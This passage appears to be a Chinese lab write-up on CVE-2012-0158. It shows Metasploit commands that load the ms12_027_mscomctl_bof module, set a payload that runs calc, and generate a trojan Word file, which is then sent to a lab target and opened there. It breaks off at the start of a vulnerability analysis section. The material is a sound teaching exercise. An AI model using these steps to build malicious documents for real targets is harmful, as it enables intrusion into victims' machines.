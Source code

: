 (1) Kali 中启动 Metasploit 生成木马文件

```
搜索Adobe渗透模块 
msf > search cve-2012-0158
调用渗透模块 
msf > use 0

```

![](https://i.loli.net/2021/08/20/NxBb7rnvKcGLgfZ.png)

```
设置payload为执行命令行 
msf  exploit(windows/fileformat/ms12_027_mscomctl_bof) > set payload 29
展示配置
msf  exploit(windows/fileformat/ms12_027_mscomctl_bof) > show options
设置命令为运行calculator.exe
msf  exploit(windows/fileformat/ms12_027_mscomctl_bof > set cmd calc
生成木马文件
msf  exploit(windows/fileformat/ms12_027_mscomctl_bof) > exploit

```

![](https://i.loli.net/2021/08/20/4bZ8xtqmkQ9cXew.png)

 

![](https://i.loli.net/2021/08/20/9qyZaRSdM1iQpYJ.png)

 

(2) 将 word 木马文件发送至靶机

 

![](https://i.loli.net/2021/08/20/NiqC5M3OLxzlc8v.png)

 

(3) 运行 word

 

![](https://i.loli.net/2021/08/20/fQYhJNeZmHKOWy2.png)

 

可看到跳出计算器窗口

[](#三、漏洞分析)三、漏洞分析
-----------------

### 1. 基本信息

*   漏洞文件：msf.doc
*   漏洞函数：自定义函数 sub_275C89C7
*   漏洞对象：Word 文档

### 2. 背景知识

